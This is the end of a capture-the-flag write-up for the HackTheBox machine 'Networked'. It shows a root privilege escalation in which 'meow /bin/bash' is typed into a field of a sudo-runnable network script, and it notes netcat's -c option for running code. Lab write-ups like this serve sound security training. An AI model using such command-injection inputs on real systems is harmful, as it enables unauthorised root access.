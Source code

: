 This is pretty simple to get a `root` shell. Just add in `/bin/bash` on a line and we can get a bash shell as root.

```none
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
meow
interface PROXY_METHOD:
meow
interface BROWSER_ONLY:
meow
interface BOOTPROTO:
meow /bin/bash
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Netcat has an option (`-c`) to execute code.
- Debugging scripts is much easier if you try run the code locally.

## Useful Resources

- [HackTheBox - Networked by ippsec](https://www.youtube.com/watch?v=H3t3G70bakM)
- [HTB: Networked by 0xdf](https://0xdf.gitlab.io/2019/11/16/htb-networked.html)
